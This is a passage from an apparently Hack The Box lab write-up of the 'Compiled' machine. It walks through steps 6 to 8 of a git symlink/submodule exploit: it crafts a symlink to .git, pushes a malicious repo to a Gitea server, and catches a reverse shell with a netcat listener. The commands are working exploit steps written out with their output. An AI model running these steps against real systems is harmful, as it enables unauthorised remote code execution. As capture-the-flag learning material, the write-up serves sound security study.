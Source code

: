 Step 6: create the git `symlink`:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ printf ".git" > dotgit.txt
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ git hash-object -w --stdin < dotgit.txt > dot-git.hash
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ git update-index --index-info < index.info

```

Step 7: commit all this and push it back to `Gitea`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ git commit -m "add-symlink"
[main db7ed38] add-symlink
 1 file changed, 1 insertion(+)
 create mode 120000 a
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ git push
Username for 'http://10.10.11.26:3000': wither
Password for 'http://wither@10.10.11.26:3000': 
Enumerating objects: 8, done.
Counting objects: 100% (8/8), done.
Delta compression using up to 2 threads
Compressing objects: 100% (5/5), done.
Writing objects: 100% (8/8), 602 bytes | 602.00 KiB/s, done.
Total 8 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.11.26:3000/wither/captain.git
 * [new branch]      main -> main

```

Step 8 : grab the link to the `captain` `repo` and submit it to the service on port 5000
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ nc -lnvp 8001                              
listening on [any] 8001 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.26] 52664

Richard@COMPILED MINGW64 ~/source/cloned_repos/bomzm/.git/modules/x ((79ee27b...))
$ id
id
uid=197610(Richard) gid=197121 groups=197121
```
